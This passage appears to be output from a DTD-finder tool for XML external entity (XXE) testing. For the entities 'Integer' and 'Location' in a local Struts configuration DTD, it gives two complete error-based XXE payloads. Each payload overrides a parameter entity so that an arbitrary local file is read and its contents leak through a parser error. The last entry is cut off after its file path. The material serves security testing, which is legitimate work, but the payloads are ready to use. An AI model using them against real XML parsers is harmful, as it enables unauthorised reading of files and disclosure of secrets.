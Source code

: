  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`

**Injectable entity:** `Integer`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % Integer '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`

**Injectable entity:** `Location`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % Location 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`
